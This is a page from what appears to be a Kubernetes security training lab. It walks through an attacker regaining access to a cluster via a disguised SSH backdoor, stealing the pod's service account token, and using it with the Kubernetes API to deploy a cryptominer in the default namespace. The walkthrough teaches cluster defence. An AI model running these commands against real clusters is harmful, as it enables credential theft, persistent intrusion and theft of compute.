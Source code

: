 # Persistence: Scenario 2 Attack

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space looking for known exploits and vulnerabilities

### Motivations

* __Red__ notices that public access to the cluster is gone and the cryptominers have stopped reporting in
* __Red__ is excited to discover that the SSH server they left behind is still active

## Re-establishing a Foothold

__Red__ reconnects to the cluster using the SSH service disguised as a *metrics-server* on the cluster. While having access to an individual container may not seem like much of a risk at first glance, this container has two characteristics that make it very dangerous:  

* There is a service account associated with the container which has been granted access to all kubernetes APIs
* The container is running with a privileged security context which grants it direct access to the host OS

## Deploying Miners

Connect to the cluster via SSH:
```console
echo "SSH password is: Sup3r_S3cr3t_P@ssw0rd"
ssh root@<service IP from attack 1> -p 8080
```

To restart our crypto mining, we will need the token for the pod service account:
```console
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
```

This time, we will create our miner in the `default` namespace. Since it is common for lots of orphaned deployments to land here, maybe ours will go unnoticed:
```console
export NAMESPACE=default
```

And we will be connecting to the kubernetes API from inside the cluster this time:
```console
export API_SERVER="https://kubernetes.default.svc"
```

Lastly, we will need curl for this and our SSH image didn't come with it preinstalled:
```console
apk update && apk add curl
```

Now the fun part, let's create our miner:
```console
curl -k -X POST "$API_SERVER/apis/apps/v1/namespaces/$NAMESPACE/deployments" \  
-H "Authorization: Bearer $TOKEN" \  
-H "Content-Type: application/json" \  
--data-binary '{
    "apiVersion":"apps/v1",
    "kind":"Deployment",
    "metadata":{
      "labels":{
        "run":"bitcoinero"},
        "name":"bitcoinero",
        "namespace":"'$NAMESPACE'"},
      "spec":{
        "replicas":1,
        "selector":{
          "matchLabels":{
            "run":"bitcoinero"}},
        "strategy":{
          "rollingUpdate":{
            "maxSurge":"25%",
            "maxUnavailable":"25%"},
          "type":"RollingUpdate"},
        "template":{
          "metadata":{
            "labels":{
              "run":"bitcoinero"}},
          "spec":{
            "containers":[{
                "image":"securekubernetes/bitcoinero:latest",
                "name":"bitcoinero",
                "command":["./moneymoneymoney"],
                "args":["-c","1","-l","10"],
                "resources":{
                  "requests":{
                    "cpu":"100m",
                    "memory":"128Mi"},
                  "limits":{
                    "cpu":"200m",
                    "memory":"128Mi"}}}]}}}}'
```

Verify that the pod is running:
```console
curl -k -X GET "$API_SERVER/api/v1/namespaces/$NAMESPACE/pods?labelSelector=run%3dbitcoinero" -H "Authorization: Bearer $TOKEN" -H "Accept: application/json" 2>/dev/null | grep phase
```

Time for some celebratory pizza!